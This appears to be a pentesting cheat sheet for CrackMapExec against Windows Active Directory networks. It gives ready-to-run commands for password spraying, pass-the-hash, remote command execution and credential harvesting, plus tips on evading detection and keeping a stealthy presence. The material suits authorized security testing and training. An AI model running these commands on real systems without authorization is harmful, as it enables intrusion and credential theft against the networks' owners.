 ```yaml
---
icon: map
---
```


# CrackmapExec

## The CrackMapExec (CME) Masterclass: Professional Active Directory & Network Pentesting Swiss Army Knife

CrackMapExec (CME) is a powerful and versatile post-exploitation tool designed to automate network reconnaissance, credential testing, lateral movement, and privilege escalation in Windows Active Directory environments. It integrates many pentesting operations into a unified interface, accelerating assessments and red team campaigns.

***

### I. Environment Setup: Dynamic Variables

Set up environment variables for efficient, repeatable commands:

```bash
export TARGET_RANGE="192.168.1.0/24"
export USERNAME="administrator"
export PASSWORD="Password123!"
export HASH=""
export DOMAIN="corp.local"
export SMB_PORT=445
export PROTOCOL="smb"           # Protocol to use: smb, winrm, mssql, etc.
export COMMAND="ipconfig"       # Command to execute remotely
export THREADS=20
export OUTPUT_DIR="cme-results"
export SESSION_NAME="htb_assessment"

```

***

### II. Core Capabilities & Workflow

* **Network-wide Discovery:** Scan IP ranges to identify live Windows hosts with SMB and other services.
* **Credential Validation:** Perform password spraying, brute force, and pass-the-hash attacks across multiple protocols.
* **Lateral Movement & Remote Execution:** Run arbitrary commands remotely with `smbexec`, `wmiexec`, `psexec`, and `atexec` modules.
* **Credential Dumping & Harvesting:** Extract credentials, cached hashes, and tickets via integrated Impacket functionality and interfaces to Mimikatz.
* **Active Directory Enumeration:** Enumerate users, groups, shares, sessions, GPOs, and local admins with built-in commands.
* **Session & Credential Management:** Stores authenticated sessions and gathered credentials for re-use and chained attacks.
* **Extensible Module Support:** Load custom modules and scripts in Python to extend capabilities.
* **Proxy & Multithreading Support:** Operates via SOCKS proxy with multiple concurrent threads for speed.
* **Integrated Output & Reporting:** CLI-friendly output and export to files for documentation.
* **Cross-Platform:** Native support for Linux and Windows environments.

***

### III. Professional Usage Examples

#### 1. Network SMB Scan for Live Hosts

```bash
crackmapexec smb $TARGET_RANGE

```

#### 2. Check Valid Credentials Across a Network (Username + Password)

```bash
crackmapexec smb $TARGET_RANGE -u $USERNAME -p $PASSWORD

```

#### 3. Use Pass-the-Hash for Authentication

```bash
crackmapexec smb $TARGET_RANGE -u $USERNAME --hashes $HASH

```

#### 4. Execute Remote Command via SMBexec

```bash
crackmapexec smb $TARGET_RANGE -u $USERNAME -p $PASSWORD -x "$COMMAND"

```

#### 5. Dump SMB Shares and Local Admin Users

```bash
crackmapexec smb $TARGET_RANGE -u $USERNAME -p $PASSWORD --shares --local-auth

```

#### 6. Enumerate Logged-in Users on Remote Hosts

```bash
crackmapexec smb $TARGET_RANGE -u $USERNAME -p $PASSWORD --loggedon-users

```

#### 7. Password Spraying Attack

```bash
crackmapexec smb $TARGET_RANGE -u users.txt -p passwords.txt

```

#### 8. Using WinRM for Remote Command Execution

```bash
crackmapexec winrm $TARGET_RANGE -u $USERNAME -p $PASSWORD -x "$COMMAND"

```

#### 9. Interact with MSSQL Servers for Queries

```bash
crackmapexec mssql $TARGET_RANGE -u $USERNAME -p $PASSWORD --query "SELECT * FROM sys.databases"

```

#### 10. Save Results to Output File

```bash
crackmapexec smb $TARGET_RANGE -u $USERNAME -p $PASSWORD -x "$COMMAND" -o $OUTPUT_DIR/results.txt

```

***

### IV. Advanced Techniques & Scenarios

* **Session Management:** Use CME’s database (`cmedb`) to store credentials and discovered data for offline use or chained operations.
* **Custom Module Development:** Write and load Python modules to customize reconnaissance or attacks.
* **Evading Detection:** Use proxy options, delays, and limit concurrent threads to avoid triggering defenses.
* **Credential Reuse:** Combine harvested hashes or tickets within CME for lateral movement.
* **Multi-Protocol Exploitation:** Run commands or extract data from SMB, WinRM, MSSQL, LDAP, and others.
* **Integration with BloodHound:** Export enumeration data for graph visualization and attack path discovery.
* **Password Spraying & Brute Force:** Efficiently test large numbers of user/password combos with automated lockout prevention.
* **Post-Exploitation:** Deploy PowerShell or Meterpreter shells remotely using integrated CME commands.

***

### V. Real-World Workflow Example

1. **Export Variables:**

```bash
export TARGET_RANGE="10.10.10.0/24"
export USERNAME="admin"
export PASSWORD="Pass1234!"
export COMMAND="whoami"
export OUTPUT_DIR="cme_scans"

```

1. **Scan Network for SMB Hosts:**

```bash
crackmapexec smb $TARGET_RANGE

```

1. **Authenticate Using Credentials and Enumerate Shares:**

```bash
crackmapexec smb $TARGET_RANGE -u $USERNAME -p $PASSWORD --shares

```

1. **Run Remote Command on Target Range:**

```bash
crackmapexec smb $TARGET_RANGE -u $USERNAME -p $PASSWORD -x "$COMMAND" -o $OUTPUT_DIR/cmd_output.txt

```

1. **Password Spraying with Lists:**

```bash
crackmapexec smb $TARGET_RANGE -u users.txt -p passwords.txt

```

1. **Harvest Credentials and Plan Lateral Movement:**

Use output data for next-stage post-exploitation with Metasploit or BloodHound.

***

### VI. Pro Tips & Best Practices

* Store and update credentials in CME’s database to streamline repeated actions.
* Combine CME enumeration with BloodHound for efficient AD attack surface mapping.
* Avoid noisy operations by tuning threads and using proxies.
* Use pass-the-hash cautiously to avoid detection.
* Regularly update CME and Impacket dependencies for new features.
* Leverage CME’s modules for multi-protocol exploitation covering SMB, WinRM, MSSQL, LDAP.
* Document findings, integration points, and escalate methodically within scope.
* Conduct live session dumping and lateral movement carefully to maintain presence stealthily.

***

This professional CrackMapExec guide empowers penetration testers to efficiently perform AD enumeration, password attacks, remote execution, credential harvesting, and lateral movement in Windows environments with automation, speed, and safety.

Sources
